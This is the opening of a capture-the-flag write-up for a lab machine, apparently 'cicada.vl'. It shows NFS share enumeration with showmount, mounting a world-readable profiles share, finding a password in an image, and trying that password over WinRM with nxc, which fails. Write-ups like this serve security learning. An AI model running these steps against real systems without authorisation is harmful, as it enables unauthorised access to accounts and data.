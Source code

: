 ```bash
# echo '10.129.234.48 cicada.vl DC-JPQ225.cicada.vl DC-JPQ225' >> /etc/hosts
```

# Discovering a password in a public NFS share

Let's check if there is public NFS share.

```bash
┌─[eu-dedivip-2]─[10.10.14.131]─[m3ringue@htb-ywpgsjp8ux]─[~]
└──╼ [★]$ showmount -e 10.129.234.48
Export list for 10.129.234.48:
/profiles (everyone)
```

The share `/profiles` is available to everyone.
I mount the share on my attacking machine.

```bash
$ sudo mkdir /mnt/vulncicada

$ sudo mount 10.129.234.48:/profiles /mnt/vulncicada
```

What do we have here?

```bash
$ ll
total 5.5K
drwxrwxrwx 2 nobody nogroup 64 Sep 15  2024 Administrator
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Daniel.Marshall
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Debra.Wright
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Jane.Carter
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Jordan.Francis
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Joyce.Andrews
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Katie.Ward
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Megan.Simpson
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Richard.Gibbons
drwxrwxrwx 2 nobody nogroup 64 Sep 15  2024 Rosie.Powell
drwxrwxrwx 2 nobody nogroup 64 Sep 13  2024 Shirley.West
```

There is a picture in the Administrator folder.

![](img/Administrator.png)

Also in the Rosie.Powell folder.

![](img/Marketing.png)

It looks like Rosie can't remember her password. 
I try this password with the `rosie.powell` account. 

```bash
# nxc winrm DC-JPQ225.cicada.vl -u 'rosie.powell' -p 'Cicada123'   
[16:31:48] ERROR    Invalid NTLM challenge received from server. This may indicate winrm.py:62
                    NTLM is not supported and nxc winrm only support NTLM                     
                    currently                                                                 
WINRM       10.129.234.48   5985   DC-JPQ225.cicada.vl [*] None (name:DC-JPQ225.cicada.vl) (domain:None) (NTLM:False)
WINRM       10.129.234.48   5985   DC-JPQ225.cicada.vl [-] None\rosie.powell:Cicada123
```
